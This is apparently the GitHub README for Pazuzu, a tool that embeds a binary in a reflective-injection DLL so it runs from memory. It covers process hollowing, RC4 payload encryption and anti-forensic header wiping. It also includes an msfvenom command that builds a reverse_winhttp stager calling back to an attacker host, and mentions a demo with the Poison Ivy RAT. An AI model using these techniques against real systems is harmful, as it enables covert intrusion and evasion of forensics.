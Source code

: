 # Pazuzu
Pazuzu is a Python script that allows you to embed a binary within a precompiled DLL which uses reflective DLL injection.
The goal is that you can run your own binary directly from memory. This can be useful in various scenarios. 

For example, if you want to exploit a vulnerability and run your own executable instead of a third party reflective DLL. In this case you just have to choose the stager you like (reverse TCP, HTTP, HTTPS, etc.) and set the DLL generated by Pazuzu. Pazuzu  will execute the binary within the address space of the vulnerable process as long as it has the .reloc section.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/reloc.png "Reloc")

**Restrictions**
 
* Not all binaries can be run from memory. For example, applications which require .NET CLR (managed code) won't be run. I will try to implement this in an upcoming version. By now you can download and run .NET application from disk with the -d option (noisy option).
* If .reloc section is not present the script will use a "process hollowing" approach.
* Support for 32-bit for now.

**How-to**
* The script Pazuzu.py accepts as input the binary you want to run from memory (parameter **-f**). Depending on the properties of the binary Pazuzu will choose one of the 3 DLL currently available. These DLL are:
  1. **reloc­x86.dll**: lets you run the binary inside the address space of the process. This option is the most favorable since the binary generates less "noise" in the system. 
  2. **dforking­x86.dll**: the binary in this case also runs from memory but using "process hollowing". This technique is the one used by the ["execute" command with the -m flag](https://community.rapid7.com/community/metasploit/blog/2012/05/08/eternal-sunshine-of-the-spotless-ram) in Meterpreter.
  3. **download­86.dll**: this is the noisiest option since the binary will be downloaded and executed from disk.

* Pazuzu also provides some additional features. For example, the **-x** option will encrypt the section containing the binary by using a random RC4 key (which is stored in the DLL TimeStamp). In addition, after running it the PE header of the DLL and the binary section will be overwritten with zeros. I will add more anti-forensic techniques in future versions.

**Examples**
* To recover the Pazuzu DLL I will use a WinHTTP stager:
```
root@kali:~# msfvenom -p windows/dllinject/reverse_winhttp lhost=192.168.1.44 lport=8080 dll=. -f exe -o Winhttp-stager.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 908 bytes
Saved as: Winhttp-stager.exe
```
Let's run Pazuzu.py with the regshot.exe binary (.section present):

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo1.png "Regshot.exe (.reloc present)")

Let's run it now with the verbose option to see more detailed information:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo2.png "Verbose output")

The next example will use putty.exe which has no reloc section. I have chosen "c:\windows\write.exe" to be "hollowed out" and I have encrypted the binary section with RC4. The hidden option **-m** just run msfvenom with a winhttp dllinject stager.

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo3.png "Putty.exe (no .reloc present)")

 Here the Process Explorer ouput:

![Alt text](https://github.com/BorjaMerino/Pazuzu/blob/master/Docs/ejemplo3-1.png "Putty.exe (Process Explorer)")

**Video**
* Watch the following video to see a practical example with the Poison Ivy RAT [Video Pazuzu: www.shellsicoming.com] (https://www.youtube.com/watch?v=2OcEbMgQiVo)

**Disclaimer**
* This tool is meant for educational purposes only.
